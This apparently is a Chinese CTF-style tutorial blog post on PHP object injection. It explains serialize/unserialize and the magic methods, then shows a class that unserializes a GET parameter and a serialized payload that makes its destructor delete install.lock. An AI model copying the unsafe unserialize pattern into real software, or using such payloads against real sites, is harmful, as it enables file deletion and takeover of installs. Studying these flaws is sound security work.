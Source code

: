 ```yaml
---
title: "PHP 对象注入"
date: 2018-05-13T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['php', 'ctf']
categories: ['Web安全']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


序列化 (serialize) 指将 PHP 变量/数组/函数/类 转换为可保存或传输的过程, 再通过反序列化 (unserialize) 转换为原来的数据使用.

<!--more-->

关于反序列化 有 3 个魔术方法.

```
__destruct - 程序结束时调用
__wakeup - 类被反序列化时调用
__toString - 类被作为字符串时调用
```

# Example 1

```
class Test{
	var $name = 'hello';
	public function __destruct(){
		echo $this->name;
	}
```

该类实例化后将在程序结束时打印出 name 的值.

更改 name 的值, 之后序列化.

```
$test = new Test();
$test->name = 'world';
echo serialize($test);

O:4:"Test":1:{s:4:"name";s:5:"world";}
```

反序列化.

```
$u = unserialize('O:4:"Test":1:{s:4:"name";s:5:"world";}');
```

```
world
```

# Example 2

```
class FileClass{

	var $filename;
	var $content;

	public function __construct($filename,$content){
		$this->filename = $filename;
		$this->content = $content;
	}

	public function write($content){
		file_put_contents($this->filename,$content);
	}

	public function __destruct(){
		echo 'clean file'.$this->filename;
		@unlink($this->filename);
	}
}

$u = unserialize($_GET['u']);
?>
```

利用

```
class FileClass{
	var $filename = 'install.lock';
}
echo serialize(new FileClass());
```

GET 传递 `O:9:"FileClass":1:{s:8:"filename";s:12:"install.lock";}`

```
clean file install.lock
```

# Other

参考 Typecho install.php 反序列化漏洞

https://paper.seebug.org/424/
